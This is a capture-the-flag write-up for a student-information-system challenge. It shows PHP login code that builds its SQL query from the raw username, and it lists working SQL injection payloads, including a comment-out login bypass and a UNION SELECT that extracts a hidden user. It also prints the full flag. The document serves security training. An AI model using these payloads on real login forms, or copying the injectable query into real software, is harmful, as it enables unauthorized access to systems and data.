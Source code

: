 # VinUni's Student Information System

VinUni SIS's source code has been recently disclosed in public. It has become a target of a notorious hacker crew, VinUni Hacking Club. You are an intern of this crew, try to exploit the website to become the official member!

Note: The flag is divided into two parts.

Challenge URL: http://ctflag.vhc.asia:12215/

## Techniques

PHP, SQL Injection

## Solution

### Finding the first part

As we refer to the [PHP source code](http://ctflag.vhc.asia:12215/thesis.php?source), we find the following snippet.

```php
<?php if ($_SESSION["username"]=="administrator"){ ?>
    <h1 class="corb-flag"><?php echo $flag; ?></h1>'
<?php } ?> 
```

And how can we obtain the value for `$_SESSION["username"]`?

```php
$query = "SELECT username FROM users WHERE username = '" . $_POST['username'] . "' and password = ?";

// ...

// Bind password param
$query->bind_param("s", $_POST['password']);
$query->execute();
$query->bind_result($user);
$query->fetch();

// Check if a user does exist
if ($user != NULL) {
    session_start();
    $_SESSION['is_logged_in'] = true;
    $_SESSION['username'] = $user;
} else {
    $error = true;
    $error_msg = "<strong>Wrong!</strong> Username/Password is invalid.";
}
```

We can apply a SQL Injection attack to the login query, by setting `username=administrator` and omit the rest by commenting out.

We can supply the below values to the login form (leave the `password` field blank)

![login form 1](login-1.png)

During the event, initially, I used `administrator' or '=` instead, but it yields the same behavior anyway.

The first part of the flag is `VHC2022{m3_c4N_SqLi_`.

![flag 1](flag-1.png)

### Finding the second part

A hint is given in the previous part that we need to find a way to login 'secretly'.

When we apply the same previous technique for the username `secretly, secret, the_secret_user`, etc., it doesn't work. It implies that such usernames do not exist in the `users` table.

Again, look at the PHP source code but the SQL query test comments.

```php
// Test:
// $query = "SELECT _faculty1 FROM the_faculty_table"
// $query = "SELECT _faculty2 FROM the_faculty_table"
// $query = "SELECT the FROM the_faculty_table"
// $query = "SELECT the_menu_user FROM the_canteen_table";
// $query = "SELECT the_ceo_user FROM the_vingroup_table";
//
// $query = "SELECT the_secret_user FROM the_secret_table";
// $query = "SELECT the_guest_user_1 FROM the_guest_table";
// $query = "SELECT the_CFO_user FROM the_cbm_table";
// $query = "SELECT V202145001 FROM the_students_table"
// $query = "SELECT V202000001 FROM the_students_table"
// $query = "SELECT V202000002 FROM the_students_table"
// $query = "SELECT V202000003 FROM the_students_table"
// $query = "SELECT V202000004 FROM the_students_table"
// $query = "SELECT V202000005 FROM the_students_table"
// $query = "SELECT V202000006 FROM the_students_table"
```

There is a `the_secret_user` in the `the_secret_table` table. How can we bring it to the SQL query result?

We can use a UNION query!

```sql
' UNION SELECT the_secret_user FROM the_secret_table #
```

Type this in the `username` field, and voilà!

![flag 2](flag-2.png)

The second part of the flag is `m3_4_r34L_h4ck3r!}`.

## The Flag

```
VHC2022{m3_c4N_SqLi_m3_4_r34L_h4ck3r!}
```